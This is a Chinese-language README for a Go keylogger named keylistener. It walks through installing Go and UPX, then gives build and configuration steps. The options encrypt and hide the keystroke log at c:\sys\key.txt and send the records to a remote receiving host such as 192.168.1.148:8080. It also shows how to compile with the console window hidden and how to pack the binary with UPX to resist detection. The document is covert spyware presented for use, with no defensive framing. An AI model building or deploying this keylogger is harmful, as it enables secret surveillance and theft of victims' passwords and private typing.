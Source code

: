 ### 一. 安装Go语言环境
下载对应版本，例如windows64位: go1.13.5.windows-amd64.msi，就单纯编译这程序的话，全部默认下一步就好
```
https://studygolang.com/dl # 官网被墙，可以使用这个
```
### 二. 安装upx(可选)
下载对应版本，例如windows64位: upx-3.95-win64.zip，是个二进制文件可执行文件免安装
```
https://github.com/upx/upx/releases/tag/v3.95
```

### 三. listener
键盘监听程序

#### 参数配置
##### 1. 编译后，以命令行参数的方式进行传入
```
$ keylistener.exe -h
    -E
       encode text (default false)
    -H
       hidden file (default false)
    -lh string
       listener host
    -o string
       output to file (default "c:\\sys\\key.txt")
```

参数：

* -E : 进行文本加密
* -H : 隐藏记录文件
* -lh: 远程接收主机地址
* -o: 本地暂存文件的路径

示例：
进行文本加密， 隐藏记录文件，并把记录发送到， 192.168.1.148:8080
```
$ keylistener.exe -E -H -lh 192.168.1.148:8080
```

##### 2. 设置默认参数，无需手动输入, 编译后直接启动程序可以使用
自行修改listener/main.go下面这几行代码代码

```
// 默认配置
const (
	defaultPath     = "c:\\sys\\key.txt"     // 默认文件保存路径
	defaultHost     = "192.168.252.130:8080" // 默认远程接收地址
	defaultIsEncode = true                   // 默认进行文本加密
	defaultIsHidden = true                   // 默认进行文件隐藏
)
```

#### 编译

##### 1. 进入程序目录
```
$ cd keyboard/listener
```

##### 2. 编译程序
```
$ go build -ldflags "-s -w -H windowsgui" -o keylistener.exe .
```

##### 3. 可选，使用upx压缩程序（据说能起到一定加壳作用）
```
$ upx -9 keylistener.exe
```




